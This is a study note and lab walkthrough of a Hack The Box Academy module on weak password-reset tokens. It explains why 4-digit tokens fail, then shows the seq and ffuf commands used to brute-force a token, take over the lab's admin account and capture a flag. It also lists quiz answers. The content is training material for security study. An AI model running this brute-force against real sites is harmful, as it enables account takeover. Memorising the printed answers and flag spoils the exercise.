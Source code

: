 ```yaml
---
sticker: emoji//1faaa
---
```

Many web applications implement a password-recovery functionality if a user forgets their password. This password-recovery functionality typically relies on a one-time reset token, which is transmitted to the user, for instance, via SMS or E-Mail. The user can then authenticate using this token, enabling them to reset their password and access their account.

As such, a weak password-reset token may be brute-forced or predicted by an attacker to take over a victim's account.

---

## Identifying Weak Reset Tokens

Reset tokens (in the form of a code or temporary password) are secret data generated by an application when a user requests a password reset. The user can then change their password by presenting the reset token.

Since password reset tokens enable an attacker to reset an account's password without knowledge of the password, they can be leveraged as an attack vector to take over a victim's account if implemented incorrectly. Password reset flows can be complicated because they consist of several sequential steps; a basic password reset flow is shown below:

![image](https://academy.hackthebox.com/storage/modules/269/bf/reset_bf_1.png)

To identify weak reset tokens, we typically need to create an account on the target web application, request a password reset token, and then analyze it. In this example, let us assume we have received the following password reset e-mail:

```
Hello,

We have received a request to reset the password associated with your account. To proceed with resetting your password, please follow the instructions below:

1. Click on the following link to reset your password: Click

2. If the above link doesn't work, copy and paste the following URL into your web browser: http://weak_reset.htb/reset_password.php?token=7351

Please note that this link will expire in 24 hours, so please complete the password reset process as soon as possible. If you did not request a password reset, please disregard this e-mail.

Thank you.
```

As we can see, the password reset link contains the reset token in the GET-parameter `token`. In this example, the token is `7351`. Given that the token consists of only a 4-digit number, there can be only `10,000` possible values. This allows us to hijack users' accounts by requesting a password reset and then brute-forcing the token.

---

## Attacking Weak Reset Tokens

We will use `ffuf` to brute-force all possible reset tokens. First, we need to create a wordlist of all possible tokens from `0000` to `9999`, which we can achieve with `seq`:

```bash
smoothment@htb[/htb]$ seq -w 0 9999 > tokens.txt
```

The `-w` flag pads all numbers to the same length by prepending zeroes, which we can verify by looking at the first few lines of the output file:

```bash
smoothment@htb[/htb]$ head tokens.txt

0000
0001
0002
0003
0004
0005
0006
0007
0008
0009
```

Assuming that there are users currently in the process of resetting their passwords, we can try to brute-force all active reset tokens. If we want to target a specific user, we should send a password reset request for that user first to create a reset token. We can then specify the wordlist in `ffuf` to brute-force all active reset-tokens:


```bash
smoothment@htb[/htb]$ ffuf -w ./tokens.txt -u http://weak_reset.htb/reset_password.php?token=FUZZ -fr "The provided token is invalid"

<SNIP>

[Status: 200, Size: 2667, Words: 538, Lines: 90, Duration: 1ms]
    * FUZZ: 6182
```

By specifying the reset token in the GET-parameter `token` in the `/reset_password.php` endpoint, we can reset the password of the corresponding account, enabling us to take over the account:

![](https://academy.hackthebox.com/storage/modules/269/bf/reset_bf_2.png)

# Questions
---

![](../images/Pasted%20image%2020250214152014.png)

The answers for the first three questions are:

```ad-note
1. `one-time reset token`
2. `-w`
3. `1000000`
```

Now, let's go to the web application:

![](../images/Pasted%20image%2020250214160759.png)

We got a login functionality, we can reset out password, let's check it out:

![](../images/Pasted%20image%2020250214160832.png)

As seen, we are redirected to `/reset.php`, the input is not properly sanitized, which means, we could send a password reset for other users, for example, let's send a password reset for `admin`:

![](../images/Pasted%20image%2020250214161036.png)

If we try going to `/reset_password.php`, we get the following:

![](../images/Pasted%20image%2020250214161111.png)

So, we need a token, we can try brute-forcing the token using the following, first, let's generate a sequence of tokens from `0000` to `9999`, which is the maximum length of 4 digits tokens:


```bash
seq -w 0 9999 > tokens.txt
```

Once we got our `tokens.txt` file, we can use ffuf:

```
ffuf -w tokens.txt -u "http://IP:PORT/reset_password.php?token=FUZZ" -fr "The provided token is invalid" -ic -c -t 200
```

After a while, we get the following:

```
ffuf -w ./tokens.txt -u "http://94.237.54.164:33815/reset_password.php?token=FUZZ" -fr "The provided token is invalid" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://94.237.54.164:33815/reset_password.php?token=FUZZ
 :: Wordlist         : FUZZ: /home/samsepiol/tokens.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: The provided token is invalid
________________________________________________

6583                    [Status: 200, Size: 2920, Words: 596, Lines: 92, Duration: 3672ms]
```

Got our token:

```
6583
```

Now, let's visit the following URL:

```
http://IP:PORT/reset_password.php?token=6583
```

We'd see this:

![](../images/Pasted%20image%2020250214161805.png)

We are able to reset the password, let's simply do the following credentials:

```ad-note
`admin`:`password`
```

Now we can log in:

![](../images/Pasted%20image%2020250214162106.png)

![](../images/Pasted%20image%2020250214162128.png)

Flag is:

```
HTB{36da098385e641d54e1b2750721d816e}
```